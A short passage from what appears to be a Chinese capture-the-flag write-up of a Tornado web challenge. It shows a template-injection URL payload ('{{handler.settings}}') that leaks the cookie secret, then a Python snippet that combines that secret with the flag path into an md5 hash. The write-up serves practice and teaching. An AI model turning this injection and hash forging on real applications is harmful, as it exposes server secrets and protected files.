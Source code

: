 ![](assets/202208241419948-1700744514802227.png)

发现 handler 可以查看当前的 RequestHandler 对象

于是 payload 如下

```
http://211ce077-6c56-419a-afb4-c599c568ac43.node4.buuoj.cn:81/error?msg={{handler.settings}}
```

![](assets/202208232235952-1700744514802229.png)

md5 加密

```python
from hashlib import md5

cookie_secret = 'a1d17d00-1e5f-4911-925c-390d3b41d6b4'
filename = '/fllllllllllllag'
print(md5(cookie_secret+md5(filename).hexdigest()).hexdigest())
```
